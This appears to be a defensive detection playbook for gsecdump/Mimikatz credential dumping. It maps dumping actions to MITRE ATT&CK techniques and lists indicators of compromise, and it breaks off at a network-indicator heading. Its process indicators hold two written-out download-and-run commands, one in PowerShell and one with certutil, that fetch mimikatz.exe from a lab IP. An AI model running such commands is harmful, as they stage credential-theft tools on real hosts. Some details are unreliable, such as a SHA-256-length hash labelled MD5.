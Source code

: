 # Overview

Playbook Name: Gsec Credential Dump (Full Credential Dump)


Tactic: Initial Access / Execution / Defense Evasion (depends on delivery method)
MITRE ATT&CK ID: T1105 – Ingress Tool Transfer

This covers the transfer or download of tools (like Mimikatz) to a compromised host.

- Example: downloading gsecdump via Invoke-WebRequest

Tactic: Credential Access
| Action                                                                            | ATT\&CK ID    | Technique / Sub-Technique                                                                                                       |
| --------------------------------------------------------------------------------- | ------------- | ------------------------------------------------------------------------------------------------------------------------------- |
| Dump **LSASS memory** (live creds, NTLM hashes)                                   | **T1003.001** | OS Credential Dumping: LSASS Memory                                                                                             |
| Dump **SAM database** (local accounts, hashes)                                    | **T1003.002** | OS Credential Dumping: Security Account Manager                                                                                 |
| Dump **LSA Secrets** (service account passwords, cached creds, DPAPI secrets)     | **T1003.004** | OS Credential Dumping: LSA Secrets                                                                                              |
| Dump **Cached domain logon credentials** (stored in registry, accessible offline) | **T1003.005** | OS Credential Dumping: Cached Domain Credentials                                                                                |
| Attempt to dump **Wireless keys** (if implemented in your version)                | **T1003.007** | OS Credential Dumping: Cached Domain Credentials (sometimes mapped to Wi-Fi creds, though not always clearly mapped in ATT\&CK) |


# Indicators of Compromise (IOCs)
1. File Hashes (Mimikatz)
   - MD5: 94CAE63DCBABB71C5DD43F55FD09CAEFFDCD7628A02A112FB3CBA36698EF72BC
   - Virus Total Score (malicious)
   - Screenshot: <img width="1908" height="1007" alt="image" src="https://github.com/user-attachments/assets/154e58e2-bffd-481e-bc63-3f60488df459" />


3. Filenames

- gsecdump.exe

- Dropped temp names like:


    - C:\Users\labadmin\mimikatz.exe

3. Process Indicators (Event ID 1 / 4688)

- Parent/Child chain:

    - cmd.exe → powershell.exe → mimikatz.exe

- Suspicious command-line usage:

    - `powershell -nop -exec bypass -c "IEX (New-Object Net.WebClient).DownloadString("http://192.168.1.105:8080/mimikatz.exe")"`

    - `certutil.exe -urlcache -split -f http://192.168.1.105:8080/mimikatz.exe mimikatz.exe`

4. Network Indicators (Event ID 3)

- Download server (lab/demo example):
